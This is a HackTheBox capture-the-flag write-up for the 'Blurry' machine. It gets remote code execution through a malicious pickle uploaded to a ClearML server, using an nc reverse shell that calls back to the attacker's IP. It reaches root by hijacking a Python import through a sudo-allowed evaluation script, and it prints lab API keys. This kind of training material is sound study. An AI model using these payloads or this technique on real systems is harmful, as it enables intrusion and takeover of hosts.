


---
tags:
  - linux
---
# HTB: [Blurry](https://app.hackthebox.com/machines/blurry)

> [!tip]- Summary with Spoilers
> - This machine was running a vulnerable version of the ClearML experimentation framework, which I exploited to gain RCE as the `jippity` user.
> - I discovered a `sudo` misconfiguration that allowed me to run a custom Python script as `root`.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Mon Jun 24 10:54:00 2024 as: nmap -v -p- -T4 --min-rate 10000 -oN nmap_tcp -sCV t
Increasing send delay for 10.10.11.19 from 0 to 5 due to 1993 out of 4982 dropped probes since last increase.
Warning: 10.10.11.19 giving up on port because retransmission cap hit (6).
Nmap scan report for t (10.10.11.19)
Host is up (0.095s latency).
Not shown: 65462 closed tcp ports (reset), 71 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://app.blurry.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun 24 10:54:28 2024 -- 1 IP address (1 host up) scanned in 28.00 seconds
```

#### 80/tcp-http



Service scan with `whatweb`:

```console
$ whatweb -a3 http://app.blurry.htb
http://app.blurry.htb [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0], IP[10.10.11.19], Script[module], Title[ClearML], nginx[1.18.0]
```

## RCE

[ClearML](https://github.com/allegroai/clearml): "Auto-Magical Suite of tools to streamline your AI workflow Experiment Manager, MLOps/LLMOps and Data-Management"


An arbitrary "Full Name" seems to work to login.

Here's the list of projects:



From there I created a new experiment under the "Black Swan" project:


And pasted that config into `clearml-init`:

```console
$ clearml-init
ClearML SDK setup process
Please create new clearml credentials through the settings page in your `clearml-server` web app (e.g. http://localhost:8080//settings/workspace-configuration)
Or create a free account at https://app.clear.ml/settings/workspace-configuration
In settings page, press "Create new credentials", then press "Copy to clipboard".
Paste copied configuration here:
api {
  web_server: http://app.blurry.htb
  api_server: http://api.blurry.htb
  files_server: http://files.blurry.htb
  credentials {
    "access_key" = "77S5RITDEE37Y5W9GT1H"
    "secret_key" = "wt32s1Uuq6m668WJwyIF1PkG1kfQbQlV5hxn88DBvOyR4hz6Y7"
  }
}
Detected credentials key="77S5RITDEE37Y5W9GT1H" secret="wt32***"
ClearML Hosts configuration:
Web App: http://app.blurry.htb
API: http://api.blurry.htb
File Store: http://files.blurry.htb
Verifying credentials ...
Credentials verified!
New configuration stored in /home/kali/clearml.conf
ClearML setup completed successfully.
```

```python
$ cat x.py
import pickle
import os
from clearml import Task, Logger
task = Task.init(project_name='Black Swan', task_name='REV shell', tags=["review"])
class MaliciousCode:
    def __reduce__(self):
        cmd = (
            "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.10 443 > /tmp/f"
        )
        return (os.system, (cmd,))
malicious_object = MaliciousCode()
pickle_filename = 'rick.pkl'
with open(pickle_filename, 'wb') as f:
    pickle.dump(malicious_object, f)
print("Malicious pickle file with reverse shell created.")
task.upload_artifact(name='malicious_pickle', artifact_object=malicious_object, retries=2, wait_on_upload=True, extension_name=".pkl")
print("Malicious pickle file uploaded as artifact.")
```

```text
$ python3 ./x.py
ClearML Task: created new task id=a21561f590d54ca7b3b8e49efd8a89af
2024-06-24 12:02:00,128 - clearml.Task - INFO - No repository found, storing script code instead
ClearML results page: http://app.blurry.htb/projects/116c40b9b53743689239b6b460efd7be/experiments/a21561f590d54ca7b3b8e49efd8a89af/output/log
Malicious pickle file with reverse shell created.
Malicious pickle file uploaded as artifact.
```

```console
listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.19] 41650
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(jippity) gid=1000(jippity) groups=1000(jippity)
```

## PE

```console
jippity@blurry:~$ sudo -l
Matching Defaults entries for jippity on blurry:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
```

```python
jippity@blurry:~$ cat /usr/bin/evaluate_model
#!/bin/bash
# Evaluate a given model against our proprietary dataset.
# Security checks against model file included.
if [ "$#" -ne 1 ]; then
    /usr/bin/echo "Usage: $0 <path_to_model.pth>"
    exit 1
fi
MODEL_FILE="$1"
TEMP_DIR="/models/temp"
PYTHON_SCRIPT="/models/evaluate_model.py"
/usr/bin/mkdir -p "$TEMP_DIR"
file_type=$(/usr/bin/file --brief "$MODEL_FILE")
# Extract based on file type
if [[ "$file_type" == *"POSIX tar archive"* ]]; then
    # POSIX tar archive (older PyTorch format)
    /usr/bin/tar -xf "$MODEL_FILE" -C "$TEMP_DIR"
elif [[ "$file_type" == *"Zip archive data"* ]]; then
    # Zip archive (newer PyTorch format)
    /usr/bin/unzip -q "$MODEL_FILE" -d "$TEMP_DIR"
else
    /usr/bin/echo "[!] Unknown or unsupported file format for $MODEL_FILE"
    exit 2
fi
/usr/bin/find "$TEMP_DIR" -type f \( -name "*.pkl" -o -name "pickle" \) -print0 | while IFS= read -r -d $'\0' extracted_pkl; do
    fickling_output=$(/usr/local/bin/fickling -s --json-output /dev/fd/1 "$extracted_pkl")
    if /usr/bin/echo "$fickling_output" | /usr/bin/jq -e 'select(.severity == "OVERTLY_MALICIOUS")' >/dev/null; then
        /usr/bin/echo "[!] Model $MODEL_FILE contains OVERTLY_MALICIOUS components and will be deleted."
        /bin/rm "$MODEL_FILE"
        break
    fi
done
/usr/bin/find "$TEMP_DIR" -type f -exec /bin/rm {} +
/bin/rm -rf "$TEMP_DIR"
if [ -f "$MODEL_FILE" ]; then
    /usr/bin/echo "[+] Model $MODEL_FILE is considered safe. Processing..."
    /usr/bin/python3 "$PYTHON_SCRIPT" "$MODEL_FILE"
fi
```

```console
jippity@blurry:/models$ echo 'import os;os.system("bash")' > torch.py
jippity@blurry:/models$ sudo /usr/bin/evaluate_model /models/demo_model.pth
jippity@blurry:/models$ sudo /usr/bin/evaluate_model /models/demo_model.pth 
[+] Model /models/demo_model.pth is considered safe. Processing...
root@blurry:/models# id
uid=0(root) gid=0(root) groups=0(root)
```
